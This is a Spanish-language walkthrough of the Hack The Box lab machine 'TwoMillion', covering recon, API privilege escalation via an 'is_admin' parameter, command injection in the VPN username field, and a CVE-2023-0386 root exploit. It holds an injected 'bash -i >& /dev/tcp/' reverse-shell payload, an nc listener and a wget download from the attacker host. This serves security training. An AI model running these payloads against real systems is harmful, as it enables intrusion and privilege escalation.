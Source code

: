 ```yaml
---
description: >-
  ✍️ Autor: TRX & TheCyberGeek 🔍 Dificultad: Fácil 📅 Fecha de creación:
  7/06/2023
---
```


# TwoMillion

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.221
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.221
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.11.221
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se asimila a la página oficial de Hack The Box pero no vemos nada interesante por lo que revisamos los directorios.

```bash
gobuster dir -u http://2million.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --exclude-length 162
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el directorio `/invite` se asimila a como se tenía que registrar la gente al principio en la plataforma ya que se necesitaba un código de invitación. Tras inspeccionar la página encontramos la función llamada **makeInviteCode**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La llamamos.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como vemos esta encriptada en **ROT13** por lo que desencriptamos.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos lo que nos comunica la pista.

```bash
curl -s -X POST "http://2million.htb/api/v1/invite/generate"
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Está el código en **base64** por lo que decodificamos.

```bash
echo "SDg2RjUtUUdRMDUtWEdEMTItU1o3QTg=" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el código de invitación.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-12 125945.png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales registradas.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos al apartado de **Access**. Miramos los endpoints de la API.

```bash
curl -s -X GET "http://2million.htb/api/v1" -v
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos sale **Unauthorized** por lo que tenemos que coger la **cookie session**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

No somos administradores. Tampoco podemos generar una VPN. Vemos que podemos actualizar datos del usuario así que probamos.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json"| jq
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos avisa del email por lo que añadimos.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"email":"bea@gmail.com"}'| jq
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos dice que falta un parámetro por si es administrador.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"email":"bea@gmail.com", "is_admin":1}'| jq
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos administradores lo que significa que la API está mal configurada. Por si acaso revisamos.

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Intentamos generar una VPN ya que somos admin.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Matizamos lo que se nos avisa.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json"| jq
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Ahora nos pide el parámetro username.

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username":"beafn28"}'| jq
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

La respuesta ya no está en JSON por lo que lo quitamos.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Genera una VPN por el usuario que le diga. Por lo que hacemos lo siguiente.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username":"prueba; whoami;"}'
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos www-data por lo que tenemos RCE.

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username": "prueba; bash -c \"bash -i >& /dev/tcp/10.10.14.58/443 0>&1\";"}'
```

Nos conectamos.

```bash
nc -lnvp 443
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos un fichero .env interesante mostramos su contenido.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Migramos de usuario.

```bash
ssh admin@2million.htb
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero nos pide contraseña. Tampoco tenemos permisos SUID.&#x20;

Nos dice que tenemos un mail.

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al ver la información del sistema en el que nos encontramos encontramos este exploit.

{% @github-files/github-code-block url="https://github.com/sxlmnwb/CVE-2023-0386" %}

Nos lo descargamos en nuestra máquina víctima tras comprimirlo en nuestra máquina anfitrión.

```bash
wget http://10.10.14.58/comprimido.zip
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Abrimos otra terminal y nos logueamos a través de **ssh** y también nos situamos en el directorio `/tmp/CVE-2023-0386`.

```
PRIMERA TERMINAL
make all
./fuse ./ovlcap/lower ./gc

SEGUNDA TERMINAL
./exp
```

Tras realizar esto nos convertimos en **root**.

<figure><img src="../../.gitbook/assets/image (1166).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1165).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-12 153509.png" alt=""><figcaption></figcaption></figure>
